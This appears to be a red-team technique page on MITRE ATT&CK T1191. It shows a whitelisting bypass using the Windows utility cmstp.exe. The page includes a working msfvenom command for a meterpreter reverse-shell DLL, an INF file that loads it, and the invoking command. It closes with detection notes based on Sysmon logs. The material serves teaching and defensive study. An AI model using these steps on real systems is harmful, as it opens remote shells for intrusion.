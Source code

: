 ```yaml
---
description: CMSTP code execution - bypass application whitelisting.
---
```


# T1191: CMSTP

## Execution

Generating the a reverse shell payload as a DLL:

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```csharp
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Invoking the payload:

```csharp
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is spawned which then establishes the connection back to the attacker:

![](../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs and looking for network connections being established by rundll32 immediately/soon after it had been spawned by cmstp.

Note how the connection was established one second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../.gitbook/assets/cmstp-kibana%20%281%29.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1191" %}

{% embed url="https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/" %}



